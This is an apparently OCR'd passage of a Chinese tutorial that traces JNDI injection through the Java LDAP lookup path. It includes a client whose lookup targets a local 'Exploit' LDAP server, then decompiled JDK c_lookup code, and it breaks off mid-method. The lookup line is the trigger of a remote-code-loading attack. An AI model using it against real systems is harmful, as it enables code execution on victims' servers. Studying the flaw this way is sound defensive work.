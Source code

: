 ```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class JNDIClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        RMIinterface rmIinterface = (RMIinterface)initialContext.lookup("ldap://127.0.0.1:1389/Exploit");
        rmIinterface.test();
    }
}
```

对lookup方法下断点，一路跟下来会发现来到了：

```java
protected Object c_lookup(Name var1, Continuation var2) throws NamingException {
  var2.setError(this, var1);
  Object var3 = null;

  Object var4;
  try {
    SearchControls var22 = new SearchControls();
    var22.setSearchScope(0);
    var22.setReturningAttributes((String[])null);
    var22.setReturningObjFlag(true);
    LdapResult var23 = this.doSearchOnce(var1, "(objectClass=*)", var22, true);
    this.respCtls = var23.resControls;
    if (var23.status != 0) {
      this.processReturnCode(var23, var1);
    }

    if (var23.entries != null && var23.entries.size() == 1) {
      LdapEntry var25 = (LdapEntry)var23.entries.elementAt(0);
      var4 = var25.attributes;
      Vector var8 = var25.respCtls;
      if (var8 != null) {
        appendVector(this.respCtls, var8);
      }
    } else {
      var4 = new BasicAttributes(true);
    }

    if (((Attributes)var4).get(Obj.JAVA_ATTRIBUTES[2]) != null) {
      var3 = Obj.decodeObject((Attributes)var4);
    }

    if (var3 == null) {
      var3 = new LdapCtx(this, this.fullyQualifiedName(var1));
    }
  } catch (LdapReferralException var20) {
    LdapReferralException var5 = var20;
    if (this.handleReferrals == 2) {
      throw var2.fillInException(var20);
    }

    while(true) {
      LdapReferralContext var6 = (LdapReferralContext)var5.getReferralContext(this.envprops, this.bindCtls);

      try {
        Object var7 = var6.lookup(var1);
        return var7;
```